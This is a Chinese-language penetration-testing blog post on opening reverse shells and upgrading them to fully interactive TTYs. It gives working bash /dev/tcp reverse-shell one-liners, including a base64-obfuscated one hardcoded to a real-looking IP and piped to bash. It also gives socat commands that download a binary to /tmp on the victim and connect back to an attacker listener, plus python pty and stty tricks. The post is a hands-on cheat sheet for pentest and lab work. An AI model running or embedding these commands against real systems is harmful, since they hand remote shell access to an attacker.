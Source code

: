 +++
title = '为 Reverse Shell 添加 TTY'
date = 2024-04-21T18:11:44+08:00
draft = false
categories = ['小技巧']
tags = ['Pentest', 'TTY', 'Reverse Shell']
+++

## Reverse Shell Cheat Sheet

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzUyLjEzOS4xNTYuMzMvNDQ0NCAwPiYxJw== | base64 -d | bash
```

## Upgrading Simple Shells to Fully Interactive TTYs

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

## 交互式 shell

### 设置环境变量

```bash
export TERM=xterm-256color
```

### python pty

`dpkg -l | grep python`
`which python`
`whereis python`
查看是否有 python 环境

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以实现简单的 tty，但是这种方式有个问题，当我们 Ctrl+C 的时候，所有连接都会断掉，又需要重新来一遍，而且 vim 虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

### Upgrading from netcat with magic

> 注意：这种方式只适用于 bash，不适用于 zsh

首先，使用Python生成一个PTY。一旦bash在PTY中运行，用 `Ctrl-Z` 将shell放到后台。

![20240405230443](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230443.png)

当 shell 处于后台时，现在检查当前终端和 STTY 信息，以便我们可以强制连接的 shell 与其匹配

![20240405230459](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230459.png)

所需信息是 TERM 类型（“xterm-256color”）和当前 TTY 的大小（“rows 38; columns 116”）

在仍然处于后台的情况下，现在将当前的STTY设置为原始类型，并使用以下命令告诉它回显输入字符:

```bash
stty raw -echo
```

使用原始的stty，输入/输出会看起来很奇怪，你看不到下一个命令，但当你输入时，它们会被处理。

使用 fg 将 shell 置于前台。它将重新打开反向 shell，但格式将会出错。最后，使用 reset 重新初始化终端。

![20240405230515](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230515.png)

注意：我没有再次输入 nc 命令（因为它可能看起来像上面）。我实际输入了 fg ，但没有回显。 nc 命令是当前正在前台运行的作业。然后在netcat shell中输入了 reset 命令

在 reset 之后，shell 应该再次看起来正常。最后一步是设置 shell、终端类型和 stty 大小，以匹配我们当前的 Kali 窗口（根据上面收集的信息）。

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

最终结果是通过netcat连接实现的具有所有我们期望的功能的完全交互式TTY（包括制表补全、历史记录、作业控制等）。

### socat (only linux)

socat 是类 Unix 系统下的一个工具，可以看作是 nc 的加强版。我们可以使用 socat 来传递完整的带有 tty 的 TCP 连接。缺点也很明显，只能在 linux 下面运行

下载地址：<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

使用起来也很简单。

攻击机：

```bash
# 首先安装
sudo apt install socat
# 执行
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

目标机：

```bash
# 把 socat 上传到目标机器上或者直接下载
# 64 位
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
#32 位
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx86.bin -O /tmp/socat

#从攻击机下载
攻击机指令：python3 -m http.server 8888

# 运行
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:4444
```

这种方式基本和 ssh 类似，ctrl+C 也不会直接断开。

### 速查表

#### 使用Python进行伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### 使用 socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 使用stty选项

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
echo $TERM
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
